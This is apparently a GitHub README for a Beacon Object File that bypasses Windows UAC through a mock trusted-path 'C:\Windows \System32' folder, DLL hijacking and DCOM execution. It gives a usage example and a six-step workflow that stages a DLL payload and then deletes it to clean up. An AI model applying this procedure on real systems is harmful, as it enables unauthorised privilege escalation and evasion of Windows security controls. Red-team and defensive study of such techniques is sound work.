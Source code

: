 # BOF - Trusted Path UAC Bypass
Beacon object file implementation for trusted path UAC bypass. The target executable will be called without involving "cmd.exe" by using DCOM object.

Technical details:

https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

**Usage**

`Example: bof-trustedpath-uacbypass ComputerFaults.exe /root/edputil.dll`

**Compile**

`make`

**Execution**
```
beacon> help bof-trustedpath-uacbypass
====================Trusted Path UAC Bypass BOF Workflow=======================
Step 1: Upload the DLL payload to "C:\Windows\Tasks"
Step 2: Create a new folder called "C:\Windows \System32"
Step 3: Copy desired executable to "C:\Windows \System32"
Step 4: Copy the DLL payload to "C:\Windows \System32"
Step 5: Use DCOM to execute "C:\Windows \System32\<desired executable>"
Step 6: Delete the DLL payload on "C:\Windows\Tasks"
================================================================================

Example: bof-trustedpath-uacbypass ComputerFaults.exe /root/edputil.dll
```

![HowTo](https://github.com/netero1010/TrustedPath-UACBypass-BOF/raw/main/execution.png)

**Credit**

 @Wietze for excellent research by
https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

@Yas_o_h for the awesome DCOM BOF implementation
